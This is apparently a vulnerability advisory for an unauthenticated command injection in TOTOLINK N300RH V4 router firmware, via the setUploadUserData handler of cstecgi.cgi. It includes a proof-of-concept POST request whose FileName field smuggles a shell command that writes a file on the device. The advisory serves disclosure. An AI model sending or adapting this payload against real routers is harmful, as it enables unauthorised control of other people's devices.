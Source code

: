 # Information



**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** [N300RH_V4](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/188.html)

**Affected firmware version:** V6.1c.1390_B20191101

**Firmware download address:** [download]([TOTOLINK](https://www.totolink.net/home/index/menu_listtpl/listtpl/prod/id/26.html?page=1))

# Overview

There is a serious command execution vulnerability in TOTOLINK N300RH V4. The vulnerability can be triggered by the route /cgi-bin/cstecgi.cgi. An attacker can perform a remote command execution attack by sending an HTTP POST  setting/setUploadUserData  request without authorization.

# Vulnerability details



Here you need to bypass the first if judgment and enter the next branch. There is command injection here.

![image-20250510213125753](m3/image-20250510213125753.png)

# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.1/index.htm
Connection: close
Cookie: languageType=cn; productName=N300RH%20v4; fmVersion=V6.1c.1390
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 01 Nov 2019 08:02:33 GMT
If-None-Match: "4271978973"
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 139

{"topicurl":"setting/setUploadUserData",
"FileName":";echo 'this is third test'> /usr/lib/lighttpd/web/3.txt;",
"ContentLength":"3000"
}
```

![image-20250510213302014](m3/image-20250510213302014.png)
